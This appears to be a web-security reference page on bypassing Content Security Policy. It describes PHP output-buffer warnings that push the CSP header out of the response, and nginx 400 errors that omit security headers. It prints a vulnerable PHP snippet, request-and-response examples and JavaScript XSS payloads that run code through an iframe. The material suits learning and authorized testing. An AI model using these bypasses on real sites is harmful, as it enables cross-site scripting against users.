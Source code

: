```yaml
---
title: "CSP Bypass"
description: "CSP Bypass."
lead: "CSP Bypass."
date: 2023-01-01T00:00:00+00:00
lastmod: 2023-01-01T00:00:00+00:00
draft: false
images: []
menu:
  docs:
    parent: "client-side"
weight: 630
toc: true
---
```


## Definition

Content Security Policy (CSP) is a HTTP response headers that helps prevent Cross-Site Scripting (XSS), clickjacking, and other client-side injection attacks. It allows website owners to specify which sources of content are trusted, ensuring that browsers only execute or render resources from those approved sources.

- [Content Security Policy (CSP) - MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)

## Response Headers Manipulation

### PHP Headers Bypass using Warnings

PHP is known for buffering the response to 4096 bytes by default, so by providing enough data inside warnings, the response will be sent before the CSP header, causing the header to be ignored.

![PHP Headers Bypass using Warnings](./images/php-headers-bypass-warning.jpg)

Challenge source code:

```php
<?php
header("Content-Security-Policy: default-src 'none';");
if (isset($_GET["xss"])) echo $_GET["xss"];
```

Maximum parameters by default in PHP:
- `$_GET`: 1000 parameters
- `$_POST`: 1000 parameters
- `$_FILES`: 20 files

```python
# ------------------[ <= 1000 parameters ]------------------
>>> resp = requests.get('http://pilv.ar/?' + 'a=&' * 1000)
>>> resp.text
''
>>> resp.headers.get('Content-Security-Policy')
"default-src 'none';"
# ------------------[ > 1000 parameters ]------------------
>>> resp = requests.get('http://pilv.ar/?' + 'a=&' * 1001)
>>> resp.text
'<br />\n<b>Warning</b>:  PHP Request Startup: Input variables exceeded 1000. To increase the limit change max_input_vars in php.ini. in <b>Unknown</b> on line <b>0</b><br />\n<br />\n<b>Warning</b>:  Cannot modify header information - headers already sent in <b>/var/www/html/index.php</b> on line <b>2</b><br />\n'
>>> resp.headers.get('Content-Security-Policy')
>>>
```

**References:**
- [pilvar XSS challenge](https://x.com/pilvar222/status/1784618120902005070)
- [Write-ups to justCTF [*] 2020 by @terjanq](https://hackmd.io/@terjanq/justCTF2020-writeups#Baby-CSP-web-6-solves-406-points)

### Abuse 400 Errors

Use `%ZZ` or other non-valid URL-encoded characters to trigger a `Bad Request`. The response does not contain any security headers, such as `Content-Security-Policy`.

Example with `nginx` as a reverse proxy:

```js
$ curl -v 'http://localhost/%ZZ'
[...]
< HTTP/1.1 400 Bad Request
< Server: nginx/1.24.0
< Date: Wed, 01 May 2024 10:28:11 GMT
< Content-Type: text/html
< Content-Length: 157
< Connection: close
<
<html>
<head><title>400 Bad Request</title></head>
<body>
<center><h1>400 Bad Request</h1></center>
<hr><center>nginx/1.24.0</center>
</body>
</html>
```

Location: `about:blank`
```js
document.body.innerHTML="<iframe name=i src='/%ZZ' />"
i.eval("alert(location.href)")
```

Location: `http://target.com/%ZZ`
```js
document.body.innerHTML="<iframe name=i src='/%ZZ' />"
i.onload=setTimeout
i.Event.prototype.toString=RegExp.prototype.toString
i.Event.prototype.flags="-alert(location.href)"
```

**References:**
- [Arbitrary Parentheses-less XSS against strict CSP policies](https://terjanq.medium.com/arbitrary-parentheses-less-xss-e4a1cf37c13d)